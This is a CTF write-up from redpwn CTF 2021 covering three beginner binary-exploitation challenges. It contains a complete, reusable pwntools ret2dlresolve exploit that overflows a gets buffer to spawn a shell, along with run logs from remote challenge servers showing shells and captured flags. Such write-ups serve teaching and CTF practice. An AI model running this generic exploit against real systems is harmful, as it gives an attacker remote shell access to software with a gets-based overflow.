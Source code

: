 # ret2generic-flag-reader

Category: Binary Exploitation

Source: redpwn CTF 2021

Author: pepsipu

Score: 10

## Description

i'll ace this board meeting with my new original challenge!

```
nc mc.ax 31077
```

## Downloads

[ret2generic-flag-reader.c](https://static.redpwn.net/uploads/69823e075eaabd793be4e9f135edd7c7fb03cfba97e213a7c6f65b118e78c1be/ret2generic-flag-reader.c)

[ret2generic-flag-reader](https://static.redpwn.net/uploads/67d516bf1345000a8068a32f4767ddb57d9a3c16e668de211a5979d8bfcf8ec7/ret2generic-flag-reader)https://static.redpwn.net/uploads/dedb887a5c49294ecd850d86728a0744c0e7ea780be8de2d4fc89f6948386937/libc-2.28.so)

## Summary

I'm lumping all of these together since I used the *exact* same code on all of them. And I'm sure this was *not* the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

https://syst3mfailure.io/ret2dl_resolve
https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above--all that is needed for easy ret2dlresolve with `gets`. That, and dynamically linked.

> Perhaps it's time to retire `gets`.

## Exploit (./getsome.py)

```
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF(args.BIN)

p = process(binary.path)
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)
log.info('padding: ' + hex(padding))

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]
dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote(args.HOST, args.PORT)
else:
    p = process(binary.path)

payload  = b''
payload += padding * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

To exploit most x86_64 `gets` challenges just type:

```
./getsome.py BIN=./binary HOST=host PORT=port REMOTE=1
```

Thanks it, get your flag and move on.

*How does this script work?*

Well, first the padding is computing by crashing the binary and extracting the payload from the core to compute the distance to the return address on the stack. Then, ret2dlresolve is used to get a shell. *See the retdlresolve links above.*

Output:

```
# ./getsome.py BIN=./beginner-generic-pwn-number-0 HOST=mc.ax PORT=31199 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0': pid 265
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0' stopped with exit code -11 (SIGSEGV) (pid 265)
[!] Error parsing corefile stack: Found bad environment at 0x7fffed221f4f
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/core.265'
    Arch:      amd64-64-little
    RIP:       0x4012be
    RSP:       0x7fffed2205b8
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/beginner-generic-pwn-number-0/beginner-generic-pwn-number-0' (0x400000)
    Fault:     0x6161616161616168
[*] padding: 0x38
[*] Loaded 14 cached gadgets for './beginner-generic-pwn-number-0'
[+] Opening connection to mc.ax on port 31199: Done
[*] Switching to interactive mode
"𝘱𝘭𝘦𝘢𝘴𝘦 𝘸𝘳𝘪𝘵𝘦 𝘢 𝘱𝘸𝘯 𝘴𝘰𝘮𝘦𝘵𝘪𝘮𝘦 𝘵𝘩𝘪𝘴 𝘸𝘦𝘦𝘬"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
$ cat flag.txt
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
# ./getsome.py BIN=./ret2generic-flag-reader HOST=mc.ax PORT=31077 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader': pid 312
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' stopped with exit code -11 (SIGSEGV) (pid 312)
[!] Error parsing corefile stack: Found bad environment at 0x7fffe4f21f61
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/core.312'
    Arch:      amd64-64-little
    RIP:       0x40142f
    RSP:       0x7fffe4f20028
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2generic-flag-reader/ret2generic-flag-reader'
[+] Opening connection to mc.ax on port 31077: Done
[*] Switching to interactive mode
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
$ cat flag.txt
flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}
# ./getsome.py BIN=./ret2the-unknown HOST=mc.ax PORT=31568 REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown': pid 361
[*] Process '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown' stopped with exit code -11 (SIGSEGV) (pid 361)
[!] Error parsing corefile stack: Found bad environment at 0x7ffcd8878f79
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/core.361'
    Arch:      amd64-64-little
    RIP:       0x401237
    RSP:       0x7ffcd8876cf8
    Exe:       '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown' (0x400000)
    Fault:     0x6161616161616166
[*] padding: 0x28
[*] Loading gadgets for '/pwd/datajerk/redpwnctf2021/pwn/ret2the-unknown/ret2the-unknown'
[+] Opening connection to mc.ax on port 31568: Done
[*] Switching to interactive mode
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7f6564131560
good luck!
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
```

## Reference

Writeup from https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2021/getsome_beginner-generic-pwn-number-0_ret2generic-flag-reader_ret2the-unknown

